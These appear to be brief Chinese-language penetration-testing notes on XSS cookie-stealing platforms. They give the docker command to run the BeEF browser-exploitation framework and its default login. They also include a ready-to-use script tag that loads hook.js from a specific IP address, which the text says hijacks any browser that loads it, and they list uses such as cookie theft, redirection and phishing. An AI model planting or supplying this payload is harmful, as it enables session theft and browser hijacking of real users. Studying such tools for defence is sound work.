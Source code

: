 ```plain
xss平台：xss.pt
一般只是用来获取cookie信息
Beef-XSS
搭建：https://blog.csdn.net/qq_40624810/article/details/110958036
下载完docker后，运行命令docker run --rm -p 3000:3000 janes/beef
```

![1645691401391-e0110e15-ff2f-49b5-ad6a-2bae8c713f5d.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171834309-739208784.png)

```plain
安装完成后，访问http://47.100.167.248:3000/ui/panel
默认账号密码beef,beef

在这个网站下面有一个hook.js文件，只要加载了这个地址，就会劫持这个浏览器。
那么如何执行这个呢
<script src="http://47.100.167.248:3000/hook.js"></script>
这个平台也可以获取cookie，跳转，下载，钓鱼，伪装成flash。
```

![1645695809407-41cf15bd-ec2b-451f-a348-55405a084e6a.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171834321-463263230.png)